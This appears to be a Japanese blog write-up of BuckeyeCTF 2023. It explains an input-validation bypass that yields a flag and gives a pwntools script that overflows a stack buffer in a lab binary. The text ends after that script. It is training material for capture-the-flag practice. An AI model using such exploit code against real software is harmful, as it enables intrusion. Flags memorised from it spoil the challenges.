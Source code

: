 +++
title = "buckeyeCTF 2023"
date = 2023-10-02
description = "Solidityは難しい"
[taxonomies]
tags = ["pwn", "blockchain", "Buffer Overflow"]
+++

[BuckeyeCTF](https://ctftime.org/event/2074)に出場しました。
コンテスト中にpwn5問とmisc1問をとき、コンテスト後にlosslessとaNyFTを追加で解きました。

# [pwn] Beginner Menu

入力された番号に対して`atoi`を呼び出します。

- 1 <= n <= 4 のときは用意された関数を実行し`exit`
- 5 <= n のときは"Not an Option"と表示し`exit`
- そうでない場合はflagを出力

という実装がされているので-1を入力するとflagが出てきます。

Flag: `bctf{y0u_ARe_sNeaKy}`

# [pwn] Starter Buffer

自明なStack Buffer Overflowがあります。flag変数の値を書き換えてあげればいいです。

```py
from pwn import *

context.arch = "amd64"
context.bits = 64
context.terminal = "tmux splitw -h".split()
context.log_level = "DEBUG"

s2sh = lambda pl: b"".join([p8(int(pl[i : i + 2], 16)) for i in range(0, len(pl), 2)])
s2u64 = lambda s: u64(s.ljust(8, b"\x00"))
i2b = lambda x: f"{x}".encode()
ptr_guard = lambda pos, ptr: (pos >> 12) ^ ptr


def create_io() -> tubes.tube.tube:
    if not local:
        io: tubes.tube.tube = remote(remote_addr, int(remote_port))
    elif debug:
        if radare:
            io: tubes.tube.tube = process(elf_name, env={"LD_PRELOAD": libc_name})
            util.proc.wait_for_debugger(util.proc.pidof(io)[0])
        else:
            io: tubes.tube.tube = gdb.debug(
                elf_name, script, env={"LD_PRELOAD": libc_name}
            )
    else:
        io: tubes.tube.tube = process(elf_name, env={"LD_PRELOAD": libc_name})
    return io


def solve():
    global t
    sa = lambda x, y: t.sendafter(x, y)
    sla = lambda x, y: t.sendlineafter(x, y)

    sla(b": ", b"A" * 0x3C + p32(0x45454545))

    t.interactive()
```